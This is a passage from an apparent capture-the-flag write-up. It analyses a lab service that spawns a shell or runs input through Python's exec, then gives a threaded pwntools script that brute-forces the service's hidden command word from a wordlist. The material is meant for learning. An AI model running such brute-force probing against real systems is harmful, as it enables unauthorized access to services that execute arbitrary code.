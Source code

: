 Examining the code snippet, it appears that:

- If the client sends an unknown string, it performs some operation with the socket, likely related to the comment about "socket being admin."
- If the client sends the `shell` string, it simply spawns a shell.
- For any other input, it passes the input to **Python**'s `exec` function.

Knowing this, we can write a simple **Python** script to discover the unknown input.

```python
#!/usr/bin/env python3

from pwn import remote, context
import threading

target_ip = "10.10.98.190"
target_port = 8000
wordlist = "/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt"
stop_flag = threading.Event()
num_threads = 100


def brute_force_input(words):
    context.log_level = "error"
    r = remote(target_ip, target_port)
    for word in words:
        if stop_flag.is_set():
            r.close()
            return
        if word == "shell":
            continue
        r.sendline(word.encode())
        output = r.recvline()
        if b'not defined' not in output and b'<string>' not in output and output != b'\n':
                stop_flag.set()
                print(f"[+] Input found: {word}")
                print(f"[+] Output recieved: {output}")
                r.close()
                return
    r.close()
    return


def main():
    words = [line.strip() for line in open(wordlist, "r").readlines()]
    words_length = len(words)
    step = (words_length + num_threads - 1) // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = min(start + step, words_length)
        if start < words_length:
            thread = threading.Thread(target=brute_force_input, args=(words[start:end],))
            threads.append(thread)
            thread.start()
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
```
{: file="brute_force_input.py" }
